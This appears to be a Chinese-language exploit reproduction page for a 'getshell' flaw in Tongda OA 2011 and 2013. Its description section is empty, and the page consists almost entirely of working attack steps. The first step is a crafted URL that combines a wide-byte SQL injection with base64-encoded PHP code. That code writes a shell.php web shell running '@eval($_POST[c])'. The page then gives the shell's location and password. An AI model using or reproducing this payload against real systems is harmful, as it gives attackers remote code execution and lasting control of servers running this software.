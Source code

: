 # 通达 oa 2011-2013 通杀 GETSHELL

> 原文：[http://book.iwonder.run/0day/通达 oa/12.html](http://book.iwonder.run/0day/通达 oa/12.html)

## 一、漏洞简介

## 二、漏洞影响

2011、2013 版本

## 三、复现过程

第一步:

```
http://0-sec.org/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))} 
```

第二步:

```
http://0-sec.org/general/email/index.php 
```

SHELL:

```
http://0-sec.org/general/email/shell.php 密码 C 
```

